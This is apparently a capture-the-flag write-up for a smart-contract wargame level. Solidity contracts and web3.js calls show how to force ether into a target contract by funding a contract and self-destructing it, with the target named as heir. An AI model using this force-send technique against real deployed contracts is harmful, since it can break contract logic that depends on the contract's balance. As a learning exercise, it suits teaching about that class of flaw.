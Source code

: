 First, try sending a straightforward transaction from another contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {

  address TARGET = 0x84474EE4342f9F86123C7B54BD84A26329D505F2;

  constructor() {}

  function feed() public payable returns (bool) {
    address payable _address = payable(TARGET);
    return _address.send(msg.value);
  }
}
```

Trigger the transaction:

```js
abi = '[{"inputs":[],"name":"feed","outputs":[{"internalType":"bool","name":"","type":"bool"}],"stateMutability":"payable","type":"function"},{"inputs":[],"stateMutability":"nonpayable","type":"constructor"}]';
agent = new web3.eth.Contract(JSON.parse(abi), '0x02cCC66F8DFc120a460D1Db55125597D0719ffa2');
agent.methods.feed().send({from: player, value: 1}, function(error, data) {console.log(data);});
```

Does not work.
Instead it can be forced by self-destructing the contract and registering the target as heir:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {

  address TARGET = 0x84474EE4342f9F86123C7B54BD84A26329D505F2;

  constructor() {}

  function feed() public payable {
    address payable _address = payable(TARGET);
    selfdestruct(_address);
  }
}
```

Fund this new contract and then kill it:

```js
abi = '[{"inputs":[],"name":"feed","outputs":[],"stateMutability":"payable","type":"function"},{"inputs":[],"stateMutability":"nonpayable","type":"constructor"}]';
agent = new web3.eth.Contract(JSON.parse(abi), '0xaB331227BD62618EB38CcB660652ef0f2090578c');
agent.methods.feed().send({from: player, value: 1}, function(error, data) {console.log(data);});
```
